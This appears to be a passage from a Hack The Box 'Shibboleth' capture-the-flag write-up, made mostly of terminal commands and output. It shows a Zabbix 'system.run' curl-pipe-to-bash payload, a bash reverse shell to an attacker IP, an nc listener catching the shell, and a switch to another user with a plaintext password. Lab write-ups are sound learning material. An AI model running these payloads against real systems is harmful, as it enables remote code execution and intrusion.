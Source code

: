 ```bash
➜  Shibboleth serve
Serving files from /home/kali/Desktop/Shibboleth
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.124 - - [23/Apr/2022 07:38:20] "GET / HTTP/1.1" 200 -
```

`system.run[curl 10.10.16.133|bash,nowait]`

Start a python server and serve index.html

```bash
➜  Shibboleth echo '/bin/bash -c "bash -i >& /dev/tcp/10.10.16.133/8888 0>&1"' > index.html
```

```bash
➜  Shibboleth nc -lnvp 8888
listening on [any] 8888 ...
connect to [10.10.16.133] from (UNKNOWN) [10.10.11.124] 33716
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ id
id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
zabbix@shibboleth:/$ cat /etc/passwd | grep home
cat /etc/passwd | grep home
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
ipmi-svc:x:1000:1000:ipmi-svc,,,:/home/ipmi-svc:/bin/bash
zabbix@shibboleth:/$ su ipmi-svc
su ipmi-svc
Password: ilovepumkinpie1
id
uid=1000(ipmi-svc) gid=1000(ipmi-svc) groups=1000(ipmi-svc)
bash -i
bash: cannot set terminal process group (903): Inappropriate ioctl for device
bash: no job control in this shell
ipmi-svc@shibboleth:/$ pwd
pwd
/
ipmi-svc@shibboleth:/$ cd ~
cd ~
ipmi-svc@shibboleth:~$ ls -la
ls -la
total 36
drwxr-xr-x 4 ipmi-svc ipmi-svc 4096 Apr 22 16:15 .
drwxr-xr-x 3 root     root     4096 Oct 16  2021 ..
lrwxrwxrwx 1 ipmi-svc ipmi-svc    9 Apr 27  2021 .bash_history -> /dev/null
-rw-r--r-- 1 ipmi-svc ipmi-svc  220 Apr 24  2021 .bash_logout
-rw-r--r-- 1 ipmi-svc ipmi-svc 3771 Apr 24  2021 .bashrc
drwx------ 2 ipmi-svc ipmi-svc 4096 Apr 27  2021 .cache
drwx------ 3 ipmi-svc ipmi-svc 4096 Apr 22 16:15 .gnupg
lrwxrwxrwx 1 ipmi-svc ipmi-svc    9 Apr 28  2021 .mysql_history -> /dev/null
-rw-r--r-- 1 ipmi-svc ipmi-svc  807 Apr 24  2021 .profile
-rw-r----- 1 ipmi-svc ipmi-svc   33 Apr 22 05:29 user.txt
-rw-rw-r-- 1 ipmi-svc ipmi-svc   22 Apr 24  2021 .vimrc
ipmi-svc@shibboleth:~$ wc user.txt
wc user.txt
 1  1 33 user.txt
```
